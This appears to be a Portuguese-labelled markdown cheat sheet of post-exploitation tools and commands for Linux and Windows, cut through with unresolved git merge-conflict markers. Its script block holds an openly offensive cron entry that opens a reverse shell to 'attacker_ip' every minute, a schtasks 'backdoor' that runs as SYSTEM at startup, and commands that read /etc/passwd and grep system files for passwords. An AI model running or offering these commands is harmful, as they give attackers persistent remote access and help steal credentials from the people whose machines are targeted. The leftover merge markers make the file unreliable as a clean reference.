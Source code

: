 <<<<<<< HEAD

# Exploitation Tools

## Persistence
=======
 Post-Exploitation Tools

 Persistence
>>>>>>> c1b4712547a17da4c827bb6759b6cfb87d5bc851

 Linux
- crontab: Scheduled tasks
- systemd: Service persistence
- bashrc: Profile persistence

 Windows
- schtasks: Scheduled tasks
- reg: Registry modification
- services: Service installation

<<<<<<< HEAD
## Privilege Escalation
=======
 Privilege Escalation
>>>>>>> c1b4712547a17da4c827bb6759b6cfb87d5bc851

 Linux
- linpeas: Automated enumeration
- linuxprivchecker: Privilege checker
- linux-exploit-suggester: Exploit suggestions

 Windows
- winpeas: Windows enumeration
- powerup: PowerShell privilege escalation
- windows-exploit-suggester: Exploit suggestions

<<<<<<< HEAD
## Data Collection
=======
 Data Collection
>>>>>>> c1b4712547a17da4c827bb6759b6cfb87d5bc851

 File Discovery
- find: Linux file search
- dir: Windows directory listing
- grep: Text search

 Network Discovery
- netstat: Network connections
- arp: ARP table
- route: Routing table

<<<<<<< HEAD
## Lateral Movement
=======
 Lateral Movement
>>>>>>> c1b4712547a17da4c827bb6759b6cfb87d5bc851

 Windows
- psexec: Remote execution
- wmic: WMI commands
- powershell: PowerShell remoting

 Linux
- ssh: Secure shell
- rdesktop: Remote desktop
- nc: Netcat

<<<<<<< HEAD
# Scripts Úteis
=======
 Scripts Úteis
>>>>>>> c1b4712547a17da4c827bb6759b6cfb87d5bc851

```bash
 System Information
uname -a
cat /etc/passwd
whoami
id

 Network Information
ifconfig
netstat -antp
arp -a
route -n

 File Discovery
find / -name "*.txt" 2>/dev/null
find / -perm -4000 2>/dev/null
grep -r "password" /etc/ 2>/dev/null

 Windows enumeration
systeminfo
net user
net localgroup administrators
wmic qfe list

 Persistence Linux
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/attacker_ip/4444 0>&1'" | crontab -

 Persistence Windows
schtasks /create /tn "backdoor" /tr "C:\backdoor.exe" /sc onstart /ru system
